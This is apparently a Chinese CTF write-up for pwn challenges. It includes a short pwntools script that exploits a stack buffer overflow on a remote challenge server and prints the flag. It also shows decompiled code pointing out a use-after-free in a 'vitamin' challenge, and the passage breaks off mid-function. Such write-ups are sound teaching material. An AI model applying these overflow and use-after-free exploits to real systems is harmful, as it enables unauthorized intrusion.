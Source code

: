## pwn

### stack
简单的栈溢出
```py
from pwn import *
DEBUG=0
if DEBUG:
    p=process('./stack')
else:
    p=remote('159.65.68.241', 10003)

p.sendline('A'*0x3A+'B'*4+p32(0x80491E2))
p.interactive()
```
flag{e46f5601-086c-4f06-bcb2-a021e104c5e5}

### vitamin
三个功能，创建修改删除
```c
void __fastcall __noreturn sub_4009D6(const char *a1, int *a2)
{
  int v2; // [rsp-14h] [rbp-14h]
  unsigned __int64 v3; // [rsp-10h] [rbp-10h]

  v3 = __readfsqword(0x28u);
  while ( 1 )
  {
    sub_400B71();
    __isoc99_scanf(&unk_400E14, &v2);
    getchar();
    switch ( v2 )
    {
      case 2:
        sub_400C74();
        puts("Done.");
        break;
      case 3:
        sub_400CEB();
        puts("Done.");
        break;
      case 1:
        create();
        puts("Done.");
        break;
      default:
        puts("No such choice.\n");
        break;
    }
  }
}
```
删除功能的free并没有清空指针，造成uaf漏洞。
```c
__int64 sub_400C74()
{
  if ( !buf || dword_6020A4 )
  {
    puts("No pill.\n");
  }
  else
  {
    free(buf); //buf not nullptr
```